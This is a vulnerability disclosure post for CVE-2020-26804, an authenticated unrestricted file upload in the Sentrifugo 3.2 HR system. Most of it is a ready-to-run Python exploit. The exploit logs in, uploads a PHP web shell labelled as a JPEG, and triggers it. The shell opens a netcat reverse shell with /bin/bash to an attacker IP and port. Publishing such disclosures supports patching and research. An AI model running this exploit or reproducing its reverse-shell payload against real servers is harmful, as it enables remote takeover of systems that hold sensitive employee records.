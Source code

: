 ```yaml
---
title: Sentrifugo 3.2 | RCE [Authenticated] (announcements) | CVE-2020-26804
author: Fatih Çelik
date: 2020-10-06 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Software**: https://sourceforge.net/projects/sentrifugo/

**Version**: 3.2

**Vulnerability**: Unrestricted File Upload

**CVE**: CVE-2020-26804

**Exploit-DB**: https://www.exploit-db.com/exploits/48998

> Sentrifugo is a FREE and powerful Human Resource Management System that can be easily configured to meet your organizational needs... Sentrifugo makes your organization’s HR process easier. It is packed with HR essential modules like Appraisal, Time Management, Leave Management, Employee Management, Analytics, Hiring/Recruitment, Background Check, Service Desk and much more.Sentrifugo furnishes a complete HRM solution facilitating a strategic and comprehensive approach to manage people and the workplace, thus enabling the employee(s) to contribute effectively and productively towards the organization’s goals. Sentrifugo is the only solution you'll need for managing HR processes. It offers a host of adaptable features to meet the needs of both managers and employees.

Reference:  https://sourceforge.net/projects/sentrifugo/

### **Vulnerability Description:**

In Sentrifugo web application, users can share an announcement under "Organization -> Announcements" tab. Also, in this page, users can upload attachments with the shared announcements. This "Upload Attachment" functionality is suffered from "Unrestricted File Upload" vulnerability so attacker can upload malicious files using this functionality and control the server.

I wrote an exploit to demonstrate the vulnerability. You need to change hardcoded values before running the exploit.

## Exploit

```python
import requests
from bs4 import BeautifulSoup
from ast import literal_eval

'''
You should change the below hardcoded inputs to get a reverse shell.
'''

login_url = "http://XXX.XXX.XXX.XXX/sentrifugo/index.php/index/loginpopupsave"
upload_url = "http://XXX.XXX.XXX.XXX/sentrifugo/index.php/announcements/uploadsave"
call_shell = "http://XXX.XXX.XXX.XXX/sentrifugo/public/uploads/ca_temp/"
username = "xxx"
password = "xxx"

attacker_ip = "XXX.XXX.XXX.XXX"
listener_port = "4444"

# Set proxy for debugging purposes

proxy = {"http": "http://XXX.XXX.XXX.XXX:8080"}

# Log in to the system

session = requests.Session()
request = session.get(login_url)
body = {"username":username,"password":password}
# session.post(login_url, data=body, proxies=proxy) 
session.post(login_url, data=body) # Send a request without proxy
print("Logged in to the application..")

# Upload the PHP shell
files = [
    ('myfile', 
        ('shell.php',
        '<?php system(\'nc.traditional {} {} -e /bin/bash\'); ?>'.format(attacker_ip,listener_port),
        'image/jpeg')
    )
]
# r = session.post(upload_url, files=files, proxies=proxy)
r = session.post(upload_url, files=files) # Send a request without proxy
response = r.content
dict_str = response.decode("UTF-8")
response = literal_eval(dict_str) # Convert bytes to dictionary
filename = response["filedata"]["new_name"]
url = call_shell + filename
print("PHP file is uploaded --> {}".format(url))

# Trigger the shell

session.get(url)
```
